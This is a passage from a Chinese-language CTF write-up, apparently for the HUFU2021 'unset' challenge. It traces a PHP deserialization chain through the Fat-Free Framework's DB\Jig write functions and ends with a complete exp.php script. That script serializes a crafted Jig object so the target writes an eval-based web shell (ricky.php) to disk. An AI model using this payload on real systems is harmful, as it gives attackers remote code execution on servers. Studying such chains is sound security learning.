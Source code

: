 `$this->lazy` 可控, 跟进 write 函数

```php
function write($file,array $data=NULL) {
	if (!$this->dir || $this->lazy)
		return count($this->data[$file]=$data);
	$fw=\Base::instance();
	switch ($this->format) {
		case self::FORMAT_JSON:
			$out=json_encode($data,JSON_PRETTY_PRINT);
			break;
		case self::FORMAT_Serialized:
			$out=$fw->serialize($data);
			break;
	}
	return $fw->write($this->dir.$file,$out);
}
```

传入的值 `$data` 是一个数组, 然后就会进入到 base.php 中的write函数 

```php
function write($file,$data,$append=FALSE) {
		return file_put_contents($file,$data,$this->hive['LOCK']|($append?FILE_APPEND:0));
	}
```

把 `$data` 写入 `$file` 中, 很明显 `$this->dir` 和 `$data` 我们都可控, 就可以直接把🐎写入我们需要存放的位置, 建立 exp.php

```php
<?php
namespace DB;
class Jig {
    const
        FORMAT_JSON=0,
        FORMAT_Serialized=1;

    protected
        //! Storage location
        $dir = './',
        //! Current storage format
        $format = self::FORMAT_JSON,
        //! Jig log
        $data = array("ricky.php"=>array("a"=>"<?php eval(\$_POST[ricky]);?>")),
        //! lazy load/save files
        $lazy = TRUE;
}
$a = new Jig();
echo urlencode(serialize($a));
```

访问木🐎攻击即可

## [HUFU2021] unset
